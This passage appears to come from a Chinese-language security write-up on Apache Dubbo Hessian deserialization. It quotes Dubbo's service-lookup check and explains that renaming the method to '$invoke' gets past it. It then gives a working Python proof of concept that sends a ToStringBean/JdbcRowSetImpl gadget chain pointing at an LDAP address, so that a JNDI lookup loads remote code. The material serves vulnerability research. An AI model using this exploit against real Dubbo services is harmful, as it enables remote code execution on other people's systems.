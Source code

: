 ```java
if (pts == DubboCodec.EMPTY_CLASS_ARRAY) {
    if (!RpcUtils.isGenericCall(path, getMethodName()) && !RpcUtils.isEcho(path, getMethodName())) {
        throw new IllegalArgumentException("Service not found:" + path + ", " + getMethodName());
    }
    pts = ReflectUtils.desc2classArray(desc);
}    
public static boolean isGenericCall(String path, String method) {
    return $INVOKE.equals(method) || $INVOKE_ASYNC.equals(method);
}
public static boolean isEcho(String path, String method) {
    return $ECHO.equals(method);
}
```

`pts`是方法参数类型的数组，找到服务接口和方法才会给它赋值，为空说明找不到服务接口或方法

此时若方法名不为`$invoke`，`$invokeAsync`，`$echo`其中一个，则抛出异常

把POC中的方法名修改一下就能打了
```python
from dubbo.codec.hessian2 import Decoder, new_object
from dubbo.client import DubboClient

client = DubboClient('127.0.0.1', 20880)

JdbcRowSetImpl = new_object(
    'com.sun.rowset.JdbcRowSetImpl',
    dataSource="ldap://127.0.0.1:8099/aaa",
    strMatchColumns=["foo"]
)
JdbcRowSetImplClass = new_object(
    'java.lang.Class',
    name="com.sun.rowset.JdbcRowSetImpl",
)
toStringBean = new_object(
    'com.rometools.rome.feed.impl.ToStringBean',
    beanClass=JdbcRowSetImplClass,
    obj=JdbcRowSetImpl
)

resp = client.send_request_and_return_response(
    service_name='com.evil',
    method_name='$invoke',
    args=[toStringBean])

print(resp)
```

#### 2.7.8

##### expect String 2 readObject
